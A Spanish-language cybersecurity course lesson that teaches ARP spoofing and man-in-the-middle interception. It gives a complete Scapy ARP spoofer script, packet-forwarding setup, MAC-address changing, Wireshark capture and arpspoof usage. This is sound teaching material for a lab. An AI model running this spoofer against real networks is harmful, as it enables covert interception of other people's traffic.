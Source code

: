 
----
- TAG: #Desarrollo #Ataque #Suplantación #ARP #Spoofer #Scapy 
-----
En esta clase, nos centraremos en la creación de un envenenador ARP (**ARP Spoofer**) utilizando Scapy, una herramienta esencial de Python para el análisis y manipulación de paquetes de red. El ARP Spoofing es una técnica de ataque en redes donde un atacante envía mensajes ARP falsificados en una red local. Esto se hace para asociar la dirección MAC del atacante con la dirección IP de otro dispositivo, como un servidor o un gateway, lo que permite al atacante interceptar el tráfico entre dos sistemas.

El concepto de **Man-In-The-Middle** (**MITM**) es crucial aquí, ya que el atacante se posiciona estratégicamente entre dos partes para interceptar o modificar el tráfico de datos, una táctica común en ataques cibernéticos. Esta técnica es posible debido a la naturaleza de confianza del protocolo ARP, que no verifica si las respuestas a las solicitudes ARP son legítimas.

Durante la clase, exploraremos cómo Scapy puede ser utilizado para implementar este tipo de ataque, proporcionando una comprensión profunda de cómo funciona el ARP Spoofing y por qué es una amenaza significativa en las redes. Esta experiencia práctica te dotará de las habilidades necesarias para identificar y prevenir estos ataques en entornos reales, fortaleciendo tu comprensión y habilidades en ciberseguridad.

---

### ARP Spoofing Manual con Scapy y Herramientas Automatizadas

En esta guía, configuraremos manualmente un ataque de ARP Spoofing usando **Scapy** en Python. Luego, exploraremos una herramienta automatizada para facilitar el proceso.

### Requisitos

- **Máquina Windows** (no virtualizada): Si tienes un portátil u otro dispositivo, intenta realizar el envenenamiento ARP en ese dispositivo. **No uses VMware o VirtualBox**, ya que las máquinas virtuales suelen compartir la misma tarjeta de red. Esto podría hacer que todo el tráfico sea interceptado sin necesidad de envenenamiento ARP, lo cual no es nuestro objetivo en este ejercicio.

### Configuración Previa en Linux

Antes de crear el script, necesitamos realizar algunas configuraciones en el sistema Linux con `iptables` y activar el reenvío de paquetes.

1. **Permitir el reenvío de paquetes:**

```bash
iptables --policy FORWARD ACCEPT
```

   Este comando permite que la máquina Linux acepte paquetes entrantes para reenviarlos al destino adecuado.

2. **Activar el reenvío de IPs:**

```bash
cat /proc/sys/net/ipv4/ip_forward
```

   Si ves un `0`, debes cambiarlo a `1` para habilitar el reenvío de IPs.

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

   Esto es fundamental para que los paquetes puedan ser reenviados entre los dispositivos.

---

### Creación del Script `arp_spoof.py`

Este script generará respuestas ARP falsas para redirigir el tráfico entre el router y una máquina Windows.

```python
#!/usr/bin/python3

import argparse
import time
import scapy.all as scapy
from termcolor import colored
import signal
import sys

# Maneja la señal para salir del programa de forma limpia
def def_handler(sig, frame):
    print(colored(f"\n[!] Saliendo...\n", 'red'))
    sys.exit(1)

# Captura los argumentos de línea de comandos
def get_arguments():
    parser = argparse.ArgumentParser(description="ARP Spoofer")
    parser.add_argument("-t", "--target", required=True, dest="ip_address", help="IP de la máquina objetivo")
    return parser.parse_args()

# Función para enviar paquetes ARP falsos
def spoof(ip_address, spoof_ip):
    # Crear paquete ARP: op=2 indica una respuesta ARP, no una solicitud
    arp_packet = scapy.ARP(op=2, psrc=spoof_ip, pdst=ip_address, hwsrc="aa:bb:cc:44:55:66")
    scapy.send(arp_packet, verbose=False)

# Función principal que ejecuta el ataque en bucle
def main():
    arguments = get_arguments()
    
    while True:
        # Falsifica la dirección MAC del router hacia la máquina objetivo
        spoof(arguments.ip_address, "192.168.1.1")
        # Falsifica la dirección MAC de la máquina objetivo hacia el router
        spoof("192.168.1.1", arguments.ip_address)
        time.sleep(2)  # Envía paquetes cada 2 segundos

# Configura una señal para manejar Ctrl+C
signal.signal(signal.SIGINT, def_handler)

if __name__ == '__main__':
    main()
```

>Recuerden cambiar el spoof y ip_address, con la ip de su router
### Explicación del Script

1. **Captura de Argumentos:**
   Usamos `argparse` para capturar la IP del objetivo (`-t` o `--target`).

2. **Paquetes ARP:**
   Utilizamos `scapy` para crear y enviar paquetes ARP con:
   - `op=2`: Indica una **respuesta ARP**, aunque no fue solicitada.
   - `psrc`: Es la dirección IP que estamos suplantando (en este caso, la del router).
   - `pdst`: Es la IP del objetivo (la máquina Windows).
   - `hwsrc`: Nuestra **falsa** dirección MAC que se enviará.

3. **Ciclo Infinito:**
   El ataque se realiza en bucle, enviando paquetes ARP cada 2 segundos para mantener el envenenamiento.

### Verificación de Direcciones IP y MAC

Para obtener la IP y MAC de la máquina Windows, usa los siguientes comandos:

- **IP Address (Windows):**

```cmd
ipconfig
```

- **Direcciones MAC (Windows):**

```bash
arp -a
```

### Cambiar Dirección MAC en Linux

Para cambiar la dirección MAC de tu interfaz de red en Linux:

1. Apaga la interfaz:

```bash
ifconfig eth0 down
```

2. Cambia la dirección MAC:

```bash
macchanger --mac="aa:bb:cc:44:55:66" eth0
```

3. Vuelve a subir la interfaz:

```bash
ifconfig eth0 up
```

4. Verifica el cambio:

```bash
macchanger -s eth0
```

### Ejecución del Script

Para correr el script y ver el cambio de dirección MAC en la máquina Windows:

```bash
python3 arp_spoof.py -t 1.2.3.4
```

Verifica la tabla ARP en Windows con:

```bash
arp -a
```

Si todo salió bien, deberías ver la dirección **MAC** que has asignado en el script.

### Interceptar Tráfico con Wireshark

Usa Wireshark para interceptar tráfico desde la máquina Windows:

1. Abre Wireshark en Linux y selecciona tu interfaz `eth0`.
2. Filtra las consultas DNS:

   ```bash
   dns.qry.name == "hack4u.io"
   ```

### Herramientas Automatizadas: `arpspoof`

Si prefieres una herramienta que automatice todo el proceso, puedes usar `arpspoof`:

```bash
arpspoof -i eth0 -t (IP de la víctima) -r (IP del router)
```

---

Con esto has completado un ataque **Man in the Middle** manual y automatizado. ¡Sigue practicando para interceptar diferentes tipos de tráfico, como imágenes y datos SSL, en futuros ejercicios!

---
